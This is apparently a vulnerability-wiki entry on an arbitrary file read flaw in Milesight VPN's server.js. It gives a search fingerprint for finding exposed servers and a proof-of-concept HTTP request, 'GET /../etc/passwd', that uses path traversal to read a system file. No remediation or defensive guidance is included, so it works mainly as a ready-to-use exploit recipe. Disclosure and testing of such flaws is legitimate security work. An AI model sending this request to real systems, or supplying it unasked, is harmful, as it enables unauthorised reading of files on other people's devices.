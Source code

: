 # Milesight VPN server.js arbitrary file reading vulnerability

## Vulnerability Description

MilesightVPN is a software that makes the VPN channel setting process easier for Milesight products and can monitor connection status through the web server interface. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Milesight VPN</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"MilesightVPN"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1690730120459-2c1711c9-5ccc-4cbc-a31e-b150b491eece-20230811182007783.png)

Verify POC

```http
GET /../etc/passwd HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1690730307132-26f4e9a2-dc98-4313-b836-e923f29be8f7.png)
